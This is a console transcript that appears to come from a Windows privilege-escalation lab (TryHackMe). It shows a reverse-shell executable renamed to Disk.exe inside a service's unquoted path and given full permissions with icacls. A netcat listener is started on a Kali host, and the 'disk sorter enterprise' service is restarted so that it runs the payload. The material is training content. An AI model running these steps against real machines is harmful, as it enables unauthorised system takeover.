 ```
C:\Users\thm-unpriv>dir                                                                                                    Volume in drive C has no label.                                                                                           Volume Serial Number is A8A4-C362                                                                                                                                                                                                                   Directory of C:\Users\thm-unpriv                                                                                                                                                                                                                   09/01/2022  05:24 PM    <DIR>          .                                                                                  09/01/2022  05:24 PM    <DIR>          ..                                                                                 05/03/2022  03:14 PM    <DIR>          3D Objects                                                                         05/03/2022  03:14 PM    <DIR>          Contacts                                                                           05/04/2022  08:15 AM    <DIR>          Desktop                                                                            05/03/2022  03:14 PM    <DIR>          Documents                                                                          05/03/2022  03:14 PM    <DIR>          Downloads                                                                          05/03/2022  03:14 PM    <DIR>          Favorites                                                                          05/03/2022  03:14 PM    <DIR>          Links                                                                              05/03/2022  03:14 PM    <DIR>          Music                                                                              05/03/2022  03:14 PM    <DIR>          Pictures                                                                           09/01/2022  05:24 PM            48,640 rev-svc2.exe                                                                       05/03/2022  03:14 PM    <DIR>          Saved Games                                                                        05/03/2022  03:14 PM    <DIR>          Searches                                                                           05/03/2022  03:14 PM    <DIR>          Videos                                                                                            1 File(s)         48,640 bytes                                                                                           14 Dir(s)  15,003,557,888 bytes free                                                                                                                                                                                                  C:\Users\thm-unpriv>move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe                                                  1 file(s) moved.                                                                                                                                                                                                                            C:\Users\thm-unpriv>icacls C:\MyPrograms\Disk.exe /grant Everyone:F                                                       processed file: C:\MyPrograms\Disk.exe                                                                                    Successfully processed 1 files; Failed processing 0 files    

┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4446

C:\Users\thm-unpriv>sc stop "disk sorter enterprise"

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Users\thm-unpriv>sc start "disk sorter enterprise"

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 4700
        FLAGS              :

```